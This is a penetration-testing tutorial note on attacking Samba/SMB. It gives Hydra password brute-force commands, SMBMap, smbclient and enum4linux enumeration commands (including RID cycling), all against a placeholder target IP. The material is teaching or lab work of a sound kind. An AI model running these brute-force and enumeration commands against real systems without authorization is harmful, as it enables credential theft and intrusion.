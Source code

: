 # Exploiting SAMBA

* SMB is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).
* SMB uses port 445 (TCP). However, originally, SMB ran on top of NetBIOS using port 139.
* Samba is the Linux implementation of SMB,and allows Windows systems to access Linux shares and devices.
* Samba utilizes username and password authentication in order to obtain acacess to the server or a network share.
* After obtaining legitimate credentials, we can use SMBMap in order to enumerate SAMBA share drives, list the contents of the shares as well as download files and execute remote commands on the target.
* We can also use smbclient. It communicated with a LAN manager server, and can be used to download files from the server to the local machine.

## Practice Demo

Enumerate target

In this case it is running Samba on ports 139 and 445

We will perform brute force using Hydra

* <mark style="color:yellow;">hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix\_password.txt targetIP smb</mark>

### Using SMBMap

This is a Samba share enumerator

To enumerate run:

* <mark style="color:yellow;">smbmap -H targetIP -u admin -p password</mark>

#### Listing the  shares:

* <mark style="color:yellow;">smbclient -L targetIP -U admin</mark>

Gaining access to the interface:

* <mark style="color:yellow;">smbclient //targetIP/'nameofshare' -U admin</mark>

### enum4linux

It is an enumeration tool for Samba.

* <mark style="color:yellow;">enum4linux -a targetIP</mark>
  * "<mark style="color:red;">-a</mark>": All information

Enumerate with credentials:

* <mark style="color:yellow;">"enum4linux -a -u admin -p password1 targetIP</mark>"

#### Using enum4linux with RID Cycling

RID cycling is an enumeration technique to brute force the RID to SID mappings of users.

* <mark style="color:yellow;">enum4linux -u \[username] -p \[password] -U \[target IP]</mark>

After we get the RIDs, which will be in hexadecimal we have to convert them and to get te SIDs we append the RID to the Domain Sid.
